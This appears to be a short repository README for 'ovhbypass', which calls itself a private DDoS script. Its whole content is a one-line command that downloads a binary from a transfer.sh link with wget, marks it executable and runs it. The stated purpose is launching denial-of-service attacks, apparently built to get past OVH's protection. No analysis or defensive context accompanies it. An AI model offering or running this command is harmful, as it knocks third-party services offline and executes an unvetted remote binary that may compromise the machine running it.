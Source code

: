 # ovhbypass
priv ddos script wget https://transfer.sh/qxfFN9/ovhbypass chmod +x ovhbypass ./ovhbypass   #ovhbypass #ddos
